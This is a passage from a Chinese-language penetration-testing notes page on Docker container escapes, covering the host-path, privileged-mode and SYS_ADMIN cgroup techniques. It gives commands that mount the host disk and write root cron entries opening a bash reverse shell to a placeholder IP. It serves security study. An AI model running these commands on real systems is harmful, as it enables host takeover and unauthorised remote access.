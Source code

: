 6. 在新容器 /aa 路径下完成对宿主机资源的访问,写入计划任务文件，反弹 shell
    ```bash
    cd /aa
    ls
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/9988 0>&1' >> /aa/var/spool/cron/root
    ```
    成功接收到宿主机反弹的 shell

**privileged 特权模式**
- 相关文章
    - [特权容器导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-privileged-container)

- 描述

    特权模式于版本 0.6 时被引入 Docker，允许容器内的 root 拥有外部物理机 root 权限，而此前容器内 root 用户仅拥有外部物理机普通用户权限。

    使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行 `docker run --privileged` 时，Docker 容器将被允许访问主机上的所有设备，并可以执行 mount 命令进行挂载。

    当控制使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

1. 首先以特权模式运行一个 docker 容器
    ```bash
    docker run -it --privileged=true ubuntu /bin/bash
    ```

2. 查看磁盘文件
    ```bash
    fdisk -l
    ```

3. dm-0 存在于 `/dev` 目录下,新建一个目录,将 `/dev/dm-0` 挂载至新建的目录
    ```bash
    mkdir /aaa
    mount /dev/dm-0 /aaa
    ```

4. 写入计划任务到宿主机
    ```bash
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/2100 0>&1' >> /aaa/var/spool/cron/root
    ```

**capability SYS_ADMIN**
- 相关文章
    - [Understanding Docker container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

- 前提
    - 在容器内 root 用户
    - 容器必须使用 SYS_ADMIN Linux capability 运行
    - 容器必须缺少 AppArmor 配置文件，否则将允许 mount syscall
    - cgroup v1 虚拟文件系统必须以读写方式安装在容器内部

- 描述

    我们需要一个 cgroup，可以在其中写入 notify_on_release 文件(for enable cgroup notifications)，挂载 cgroup 控制器并创建子 cgroup，创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。
